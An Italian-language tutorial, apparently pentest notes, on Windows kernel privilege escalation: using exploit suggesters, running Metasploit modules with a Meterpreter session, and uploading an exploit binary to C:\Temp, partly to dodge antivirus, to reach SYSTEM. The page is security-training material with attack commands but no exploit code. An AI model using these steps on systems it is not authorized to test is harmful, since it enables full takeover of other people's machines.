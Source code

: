 
# Windows Kernel Exploit

Il kernel è il cuore del sistema operativo. In un sistema Windows, il kernel prende il nome di **Windows NT** e gestisce l’accesso diretto alle risorse di sistema e all’hardware. Funziona come un intermediario tra il software e le componenti fisiche, consentendo ai programmi di interagire in modo sicuro con la memoria, il processore, i dispositivi, ecc.

Windows distingue due modalità operative:

- **User Mode**: modalità con accesso limitato alle risorse. Le applicazioni comuni vengono eseguite qui, in uno spazio isolato per motivi di sicurezza.
- **Kernel Mode**: modalità privilegiata, con accesso illimitato alle risorse. Qui operano i driver, il gestore della memoria, il file system e tutte le funzioni di basso livello.

L’obiettivo di un **Windows Kernel Exploit** è sfruttare una vulnerabilità nella modalità kernel per passare da un utente con privilegi limitati a uno con privilegi **SYSTEM**, ottenendo così il controllo totale sul sistema.

 Attenzione: interagire direttamente con il kernel è pericoloso. Un errore può causare crash di sistema, perdita di dati o BSOD. 

## Fasi di exploit

### 1. Rilevamento delle vulnerabilità

Ogni sistema Windows può presentare vulnerabilità diverse, in base alla versione del sistema operativo, al livello di patch applicate e alle configurazioni installate.

Per identificare queste vulnerabilità, possiamo usare:

- `post/multi/recon/local_exploit_suggester` di Metasploit
- `Windows Exploit Suggester` (WES) scaricabile da <a href="https://github.com/AonCyberLabs/Windows-Exploit-Suggester">GitHub</a>

WES è uno script Python che confronta le informazioni raccolte con `systeminfo` sul target con un database di bollettini Microsoft, identificando patch mancanti ed eventuali exploit associati. Può anche indicare se esistono:

- moduli Metasploit ([M])
- exploit pubblici ([E])
- vulnerabilità senza bollettino ufficiale ([*])

Il simbolo **[M]** indica che esiste un modulo già pronto su Metasploit.  
Il simbolo **[E]** fa riferimento a un exploit disponibile in forma di **proof-of-concept** (PoC), solitamente scaricabile da siti come Exploit-DB.  
Il simbolo **[*]** indica che manca un bollettino ufficiale (ad esempio, vulnerabilità zero-day note ma non ancora pubblicate da Microsoft).

Un’altra ottima risorsa è la repository <a href="https://github.com/SecWiki/windows-kernel-exploits">Windows Kernel Exploits</a>

https://github.com/SecWiki/windows-kernel-exploits

Questa raccoglie centinaia di exploit per il kernel di Windows, organizzati per CVE. Ogni exploit è fornito con codice sorgente o binari compilati pronti all’uso.

### 2. Esecuzione via Metasploit

Dopo aver identificato un exploit tramite `local_exploit_suggester`, puoi eseguirlo direttamente in Metasploit:

`use <nome_modulo>` <br>
`set SESSION <numero_sessione>` <br>
`set LHOST <tuo_IP>` <br>
`set LPORT <porta>` <br>
`run` <br>

Per usare `local_exploit_suggester`:

1. Ottieni una sessione Meterpreter
2. Esegui `background` per metterla in pausa
3. Lancia:

`use post/multi/recon/local_exploit_suggester` <br>
`set SESSION <id_sessione>` <br>
`run` <br>

### 3. Esecuzione manuale

Puoi anche eseguire exploit manualmente. Ecco i passaggi:

1. Clona la repository:

`git clone https://github.com/AonCyberLabs/Windows-Exploit-Suggester` <br>
`cd Windows-Exploit-Suggester` <br>

2. Aggiorna il database:

`./windows-exploit-suggester.py --update`

3. Ottieni le informazioni del target:
- Vai su una shell del target e digita:

`systeminfo > systeminfo.txt`

4. Copia `systeminfo.txt` sulla tua macchina, poi esegui:

`./windows-exploit-suggester.py --database 2024-*.xls --systeminfo systeminfo.txt`


Ti verrà restituita una lista di vulnerabilità, ordinata per probabilità di successo.

Se decidi di usare un exploit da ExploitDB o dalla repo SecWiki:

- Trasferisci il binario sul target con Meterpreter:

`cd C:\` <br>
`ls` <br>
`cd Temp\` <br>
`upload ~/Downloads/exploit.exe` <br>
`shell` <br>
`exploit.exe` <br>

La cartella `Temp` viene usata per evitare di scrivere nella home dell’utente ed eludere possibili controlli o antivirus.

Una volta eseguito l’exploit, controlla i privilegi ottenuti:

`whoami`

Se la risposta è `NT AUTHORITY\SYSTEM`, l’elevazione è riuscita.

---
